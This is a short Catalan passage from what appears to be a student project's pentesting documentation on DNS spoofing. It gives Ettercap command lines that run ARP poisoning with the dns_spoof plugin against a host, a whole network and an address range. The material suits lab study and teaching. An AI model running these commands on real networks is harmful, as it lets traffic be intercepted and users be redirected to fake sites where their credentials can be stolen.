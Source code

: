 ```
# Host local

Connectar-se a Twitter - Farà la redirecció a 10.200.243.137


```

![](https://github.com/KeshiKiD03/asixproject2k22/blob/main/Official%20Documentation/Hacking%20&%20Pentesting/DNS%20Spoofing/Photos/DNSSpoof.png?raw=true)> __Img Source__: *@Aaron & @Cristian 's GitHub*
<br>

## __Ettercap per CLI__

- https://esgeeks.com/tutorial-ettercap-ejemplos/

Utilitza la següent ordre per llançar una suplantació de DNS:

sudo ettercap -T -q -P dns_spoof -i wlan0 -M arp /// ///

#Un altre comandament, per a tota la xarxa
sudo ettercap -T -q -M arp -i wlan0 -P dns_spoof -p //192.168.1.1/

#Per a un rang de xarxa
sudo ettercap -T -q -M arp -i wlan0 -P dns_spoof //192.168.1.1/ 192.168.1.51/

# __Explicació resumida:__

ARP Spoof - DNS Cache Poisoning

